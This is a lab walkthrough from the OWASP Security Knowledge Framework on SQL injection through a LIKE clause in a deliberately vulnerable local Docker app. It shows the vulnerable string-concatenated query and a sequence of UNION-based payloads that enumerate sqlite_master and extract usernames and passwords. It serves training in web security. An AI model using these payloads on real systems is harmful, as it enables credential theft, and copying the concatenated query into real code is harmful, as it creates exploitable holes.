 # KBID 156 - SQLI \(Like\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-like
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](.gitbook/assets/sqli-like-1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-like-2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute("SELECT UserName, email FROM users WHERE UserName LIKE '%"+username+"%' ORDER BY UserId")
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](.gitbook/assets/sqli-like-3.png)

```text
http://localhost:5000/home/Admin%'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-like-4.png)

```text
http://127.0.0.1:5000/home/Admin%' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](.gitbook/assets/sqli-like-5.png)

```text
http://localhost:5000/home/Admin%' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](.gitbook/assets/sqli-like-6.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](.gitbook/assets/sqli-like-7.png)

```text
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](.gitbook/assets/sqli-like-8.png)

```text
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](.gitbook/assets/sqli-like-9.png)

```text
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)

